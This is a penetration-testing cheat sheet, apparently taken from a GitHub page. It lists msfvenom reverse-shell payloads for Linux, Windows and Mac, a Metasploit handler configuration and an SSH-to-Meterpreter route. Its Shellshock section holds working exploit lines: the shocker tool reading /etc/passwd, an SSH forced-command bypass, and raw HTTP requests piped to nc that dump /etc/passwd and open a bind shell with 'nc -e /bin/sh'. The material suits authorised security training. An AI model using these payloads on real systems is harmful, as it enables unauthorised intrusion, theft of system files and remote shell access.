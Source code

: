       *Linux Based Shellcode*

      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
      
      *Windows Based Shellcode*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
      
      *Mac Based Shellcode*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      **Handlers**
      Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z
      
      Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

-   SSH to Meterpreter: https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter

-   Shellshock

    -   Testing for shell shock with NMap
    
    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`

    -   git clone https://github.com/nccgroup/shocker

    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

    -   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh  
        
              ssh -vvv  
              ssh -i noob noob@$ip '() { :;}; /bin/bash'

    -   cat file (view file contents)  
    
              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock run bind shell  
    
             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
